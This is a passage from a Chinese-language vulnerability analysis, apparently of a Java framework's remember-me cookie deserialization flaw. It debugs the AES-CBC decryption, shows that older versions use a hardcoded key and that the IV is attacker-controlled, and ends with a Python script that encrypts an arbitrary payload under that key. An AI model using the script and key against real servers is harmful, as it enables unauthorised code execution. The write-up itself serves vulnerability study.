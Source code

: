 通过动态调试的方式跟进decrypt函数，看一看其中发生了什么事。在decrypt函数中发现了**加密套件**，该加密算法采用AES CBC模式并且采用PKCS5Padding模式进行填充。

[![](https://p0.ssl.qhimg.com/t018796c6f4ca81191a.png)](https://p0.ssl.qhimg.com/t018796c6f4ca81191a.png)

那么关于该算法这里不做过多的讲解，我们只需要知道该算法在加解密的时候需要知道**加解密密钥**以及**初始化向量**，接下来就要分析如何得到这两个重要的变量。

首先是**加解密密钥**，其实在上面截图中就能看到this.getDecryptionCipherKey函数是获取密钥的函数，跟进发现返回一个变量，该变量通过setCipherService函数进行赋值。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0154d00bfaadc2b83c.png)

[![](https://p1.ssl.qhimg.com/t01e8d3946e7f051597.png)](https://p1.ssl.qhimg.com/t01e8d3946e7f051597.png)

[![](https://p3.ssl.qhimg.com/t019b12c8415835cf3a.png)](https://p3.ssl.qhimg.com/t019b12c8415835cf3a.png)

上面三个函数调用为了给加解密密钥赋值，那么这个加解密密钥到底是什么，在低版本中这个base64编码就是我们想要的答案。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t016ebda2dd0d505397.png)

继续分析**初始化向量**，cipherService.decrypt函数会初始化iv变量，通过调试发现，初始化向量的值为0，之后会在密文中取出前16个字节当作iv，因此iv值和密文我们可以控制。

[![](https://p0.ssl.qhimg.com/t0163490ad7c1e3cfbb.png)](https://p0.ssl.qhimg.com/t0163490ad7c1e3cfbb.png)

那么到这里其实可以写出加密脚本了

```
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

key  =  "kPH+bIxk5D2deZiIxcaaaA=="
mode =  AES.MODE_CBC
IV   = ('0'*16).encode("utf8")
encryptor = AES.new(base64.b64decode(key), mode, IV)

payload=base64.b64decode(sys.argv[1])
BS   = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
payload=pad(payload)

print(base64.b64encode(IV + encryptor.encrypt(payload)))
```

### <a class="reference-link" name="0x2%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E8%A7%A6%E5%8F%91%E7%82%B9"></a>0x2 反序列化触发点
